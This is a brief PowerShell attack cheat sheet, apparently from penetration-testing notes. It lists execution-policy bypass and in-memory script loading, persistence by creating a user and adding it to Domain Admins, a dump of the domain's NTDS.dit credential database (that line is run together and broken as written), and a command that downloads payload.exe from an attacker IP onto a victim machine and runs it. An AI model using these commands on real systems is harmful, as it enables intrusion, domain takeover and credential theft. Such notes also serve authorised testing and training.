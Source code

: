 # ☄️ Powershell Commands Cheat Sheet

**Execution Bypass**

* ```
  Set-ExecutionPolicy Unrestricted 
  ./file.ps1
  ```
* ```
  Import-Module script.psm1
  Invoke-FunctionThatIsIntheModule
  ```
* ```
  iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)
  ```

**Powershell.exe blocked**

* Use ‘not powershell’ [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps)

Persistence

* ```
  net user username "password" /ADD
  ```
* ```
  net group "Domain Admins" %username% /DOMAIN /ADD
  ```

**Gather NTDS.dit file**

* `ntdsutilactivate instance ntdsifmcreate full C:\ntdsutilquitquit`&#x20;

#### Download Files in Victim Machine

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<Attacker IP>:8080/payload.exe','payload.exe')"
```

```
# Executing the payload
Start-Process "payload.exe"
```

